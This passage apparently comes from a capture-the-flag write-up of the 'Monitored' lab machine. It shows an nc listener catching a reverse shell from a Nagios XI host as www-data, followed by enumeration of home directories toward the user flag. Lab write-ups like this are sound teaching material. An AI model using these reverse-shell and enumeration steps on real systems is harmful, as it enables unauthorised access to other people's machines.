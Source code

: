![](img/monitored25.png)

RCE confirmed. It's time to get a shell.

![](img/monitored26.png)

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.9  netmask 255.255.254.0  destination 10.10.14.9
        inet6 fe80::2726:54f4:9a38:1e72  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1007  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.248] 54042
<i/html/includes/components/custom-includes/images$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),121(Debian-snmp),1001(nagios),1002(nagcmd)
```

I am IN. User "www-data", member of the "nagios" group, can read the user flag.

```shell
www-data@monitored:/usr/local/nagiosxi/html$ ls -l /home
total 8
drwxr-xr-x 4 nagios nagios 4096 Feb 24 06:04 nagios
drwxr-xr-x 3 svc    svc    4096 Nov 11 10:55 svc
www-data@monitored:/usr/local/nagiosxi/html$ ls -l /home/nagios
total 8
-rw-r--r-- 1 nagios nagios 131 Feb 24 06:04 cookie.txt
-rw-r----- 1 root   nagios  33 Feb 24 05:58 user.txt
www-data@monitored:/usr/local/nagiosxi/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),121(Debian-snmp),1001(nagios),1002(nagcmd)
```
